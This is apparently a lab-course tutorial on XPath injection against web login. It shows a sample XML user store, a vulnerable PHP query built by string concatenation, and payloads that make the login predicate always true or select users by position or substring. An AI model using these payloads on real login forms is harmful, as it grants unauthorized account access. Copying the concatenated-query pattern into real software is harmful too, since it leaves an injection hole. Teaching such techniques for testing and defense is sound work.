 # XPath - Authentication Bypass

Now that we have a basic idea of XPath query syntax, let's look at how XPath injection can be weaponized to bypass web authentication.

## Foundation
Example XML user store:

```xml
<users>
	<user>
		<name first="Kaylie" last="Grenvile"/>
		<id>1</id>
		<username>kgrenvile</username>
		<password>P@ssw0rd!</password>
	</user>
	<user>
		<name first="Admin" last="Admin"/>
		<id>2</id>
		<username>admin</username>
		<password>admin</password>
	</user>
	<user>
		<name first="Academy" last="Student"/>
		<id>3</id>
		<username>htb-stdnt</username>
		<password>Academy_student!</password>
	</user>
</users>
```

Typical query used for auth:

```xpath
/users/user[username/text()='htb-stdnt' and password/text()='Academy_student!']
```

Vulnerable PHP (unsanitized concatenation):

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . $_POST['password'] . "']";
$results = $xml->xpath($query);
```

## Basic Bypass (boolean true)
Inject values so the predicate always evaluates to true:

```xpath
' or '1'='1
```

Resulting query example:

```xpath
/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
```

This returns all `user` nodes; apps often take the first match (logs in as the first user).

To target a specific username (e.g., admin) without a valid password:

```xpath
/users/user[username/text()='admin' or '1'='1' and password/text()='abc']
```

## Hashed Password Scenario
If passwords are hashed server-side before interpolation:

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . md5($_POST['password']) . "']";
$results = $xml->xpath($query);
```

A naive `' or '1'='1` will fail because the password literal becomes a fixed hash.

### Technique A: Universal true via double OR

```xpath
' or true() or '
```

Result:

```xpath
/users/user[username/text()='' or true() or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```

### Technique B: Select by position

```xpath
' or position()=2 or '
```

Result:

```xpath
/users/user[username/text()='' or position()=2 or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```

Increment the index to iterate users.

### Technique C: contains() to match partial usernames

```xpath
' or contains(., 'admin') or '
```

Result:

```xpath
/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```

Matches users whose node string-value contains "admin" (e.g., username descendants).

## Notes & Tips
- Try both username and password fields; either can influence the predicate.
- Use application behavior (messages, returned content) to confirm success.
- Do not store or publish sensitive flags. Omit secret values in write-ups.
